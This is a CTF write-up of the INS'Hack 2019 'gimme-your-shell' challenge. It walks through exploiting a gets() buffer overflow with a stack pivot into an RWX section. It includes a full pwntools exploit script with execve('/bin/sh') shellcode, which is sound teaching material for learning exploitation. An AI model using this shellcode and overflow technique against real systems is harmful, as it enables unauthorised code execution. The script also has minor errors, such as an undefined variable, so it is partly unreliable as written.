




# gimme-your-shell

"gimme-your-shell" was an easy pwn challenge in the INS'Hack ctf 2019.
Although not very complicated, I struggled to solve it because
I didn't try with a naive solution despite the fact that it was tagged EASY.

## Challenge description

Someone is always asking me the same question when I try to find his secret. Can you answer his question and get his secret ? I can handle it.

He is waiting for you at: `ssh -i <your_keyfile> -p 2225 user@gimme-your-shell.ctf.insecurity-insa.fr`
To find your keyfile, look into your profile on this website.

[binary](weak)

## The problem

From the first glance with Binary Ninja I see a `vuln` function that is called by the `main` function.
I immediately notice that there is a buffer overflow in the `vuln` function because of the use of `gets`.

Indeed, "gets" is a function that allows you to read the content of stdin to a buffer passed as a parameter until you meet the end-of-line character. (\n, 0xa)



I also quickly notice that there are several sections in Read Write Exec (RWX) including the stack and the .data section.



A quick look at the security features of this program shows us that there are simply none.


## A naive solution

The simple solution I didn't think to try during the CTF is to send a shellcode and jump on it with the `nop sled` technique since the stack is executable. However, this technique requires that `ASLR` security be disabled on the remote server, information I didn't have.

## A better solution

Looking more closely at the `vuln` function I notice that it works like this:

```nasm
push rbp; save context
mov rbp, rsp
lea rax, [rbp - 0x10]
mov rdi, rax
call gets
leave; restore context
ret; jump to saved rip
```

My idea is to change the value of rbp to a well chosen value by doing a first buffer overflow in order to jump on a gadget that allows us to do that.
Luckily I quickly notice that there is a `pop rbp; ret` gadget at `0x400522`.

I have chosen to use a value in section `0x00600000-0x00601000` which is in RWX (The address value must not contain "\n"), I randomly chose the value `0x60babe`.

Now it is necessary to re-run the vuln function but taking care not to execute the `pop rbp; mov rpb, rsp` part so I decided to jump at `0x400570`.

```nasm
;0x400570 
lea rax, [rbp - 0x10]
mov rdi, rax
call gets
```

As you know `leave` is equivalent to `mov rsp, rbp` puis `push rbp`, `saved_rip` is therefore located in our new buffer.

As I like to complicate my task and I think that nop sled takes up space (false excuse in fact I just didn't think about it. Once again!) I wrote the return address in the middle of my shellcode using a relative jump.

After that I put all the pieces of the puzzle together and I validate the challenge.


```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

conn = process(["ssh", "-i", "key", "-p", "2225", "user@gimme-your-shell.ctf.insecurity-insa.fr "])
conn.recvuntil(banner)

pop_rbp_ret = 0x400522 #pop rbp; ret
rwx_section = 0x60babe #rwx section far enough to not have any "\n" in the payload (due to the rbp-0x10); "\n" stop the reading of gets
gets 		= 0x400570 #mov rdi, rbp-0x10; call gets; .... ; ret

# execve("/bin/sh", NULL, NULL)
shellcode  = ""

shellcode += "\x48\x31\xff"	# xor rdi, rdi
shellcode += "\x48\x31\xf6"	# xor rsi, rsi
shellcode += "\x48\x31\xd2"	# xor rdx, rdx
shellcode += "\x48\x31\xc0"	# xor rax, rax
shellcode += "\x50"			# push rax
shellcode += "\xeb\x11"		# jmp rel 0x13

#####
shellcode += "\x90"*9 # nop sled
shellcode += p64(rwx_section - 0x10) # new Saved_RIP with the new stack, YES! Right in the middle of the shellcode :D. (Thx to the rbp - 0x10)
#####

#jump here:
shellcode += "\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68" # movabs rbx, 0x68732f2f6e69622f ; '/bin//sh'
shellcode += "\x53"				# push rbx
shellcode += "\x48\x89\xe7"		# mov rdi, rsp
shellcode += "\xb0\x3b"			# mov al, 0x3b
shellcode += "\x0f\x05"			# syscall


firstStage += p64(pop_rbp_ret)
firstStage += p64(rwx_section) 
firstStage += p64(gets)


payload = "A"*24 #Padding before hit saved_rip
payload += firstStage
payload += "\n"
payload += shellcode

print payload
```



## Conclusion

This challenge was very interesting, and I had a lot of fun to flag it.
Thanks a lot to the organizing team for this edition!
And a big thank you to Mathis Hammel for his teasing for a while.


### BZHugs for Inshall'Hack.